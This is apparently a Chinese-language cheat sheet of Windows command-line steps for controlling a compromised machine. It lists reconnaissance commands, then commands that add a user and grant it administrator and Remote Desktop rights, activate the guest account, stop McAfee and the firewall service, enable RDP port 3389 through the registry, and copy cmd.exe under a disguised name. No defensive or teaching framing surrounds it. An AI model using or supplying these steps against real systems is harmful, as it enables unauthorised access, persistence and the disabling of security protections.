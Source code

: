 ## 查看版本
`ver`

## 查看权限
`whoami`

## 查看配置
`systeminfo`

## 查看用户名
`net user`

## 查看进程
`tasklist`
## 查看正在运行的服务
`tasklist /svc`
## 查看开放的所有端口
`netstat -ano`
## 查询管理用户名
`query user`
## 查看搭建坏境
`ftp 127.0.0.1`
## 查看指定服务的路径
`sc qc Mysql`
## 添加一个用户
`net user 用户名 密码 /add`
## 提升管理权限
`net localgroup administrators 用户名 /add`
## 添加用户并提升权限
`net user 用户名 密码 /add & net localgroup administrators 用户名 /add`
## 查看指定用户信息
`net user 用户名`
## 查看所有管理权限的用户
`net localgroup administrators`
## 加入远程桌面用户组
`net localgroup "Remote Desktop Users" 用户名 /add`
## 突破最大连接数
`mstsc /admin /v:127.0.0.1`
## 删除用户
`net user 用户名 /del`
## 删除管理员账户
`net localgroup administrators 用户名 /del`
## 更改系统登录密码
`net user 用户名 密码`
## 激活GUEST用户
`net user guest /active:yes`
## 开启TELNET服务
`net start telnet`
## 关闭麦咖啡
`net stop "McAfee McShield"`
## 关闭防火墙
`net stop sharedaccess`
## 查看当前目录的所有文件
`dir 目录路径`
## 查看指定文件的内容
`type 文件路径`
## 复制cmd.exe 到 temp 下命名为cmd.txt
`copy c:\windows\temp\cookies\cmd.exe c:\windows\temp\cmd.txt`
## 开启3389端口
`REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f`
## 查看路由器信息
`route print`
